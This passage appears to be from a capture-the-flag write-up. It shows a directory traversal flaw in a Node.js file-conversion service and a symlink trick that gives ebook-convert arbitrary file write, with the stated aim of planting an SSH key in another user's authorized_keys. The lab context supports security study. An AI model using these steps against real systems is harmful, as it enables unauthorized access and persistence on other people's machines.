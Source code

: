 ```
-----------------------------416641782035355546973084316586--

```

The output filename is generated here:

```

  const destinationName = `${fileId}.${outputType}`;
  const destinationPath = path.resolve(path.join(__dirname, "output", destinationName));

```

That also looks like a directory traversal vulnerability. I’ll try updating this in Burp Repeater:

![image-20240117105741443](/img/image-20240117105741443.png)

It shows success, and the file exists:

```

frank@bookworm:/home/neil/converter/calibre$ cat /tmp/web.txt 
test data!

```

#### Symlinks for Arbitrary Write

If I can get write as `neil`, I would want to write an SSH key into their `authorized_keys` file. But that has no extension, which by default means that `ebook-convert` would create the directory, which is not useful.

If I want to write a text file but without a `.txt`, I’ll try a symlink:

```

frank@bookworm:/home/neil/converter/calibre$ ln -s /tmp/output /tmp/output.txt
frank@bookworm:/home/neil/converter/calibre$ ./ebook-convert /tmp/test.txt /tmp/output.txt 
1% Converting input to HTML...
InputFormatPlugin: TXT Input running
on /tmp/test.txt
Language not specified
Creator not specified
Building file list...
Normalizing filename cases
Rewriting HTML links
flow is too short, not running heuristics
Forcing index.html into XHTML namespace
34% Running transforms on e-book...
Merging user specified metadata...
Detecting structure...
Auto generated TOC with 0 entries.
Flattening CSS and remapping font sizes...
Source base font size is 12.00000pt
Removing fake margins...
Cleaning up manifest...
Trimming unused files from manifest...
Creating TXT Output...
67% Running TXT Output plugin
Converting XHTML to TXT...
TXT output written to /tmp/output.txt
Output saved to   /tmp/output.txt
frank@bookworm:/home/neil/converter/calibre$ cat /tmp/output
this is a test

```

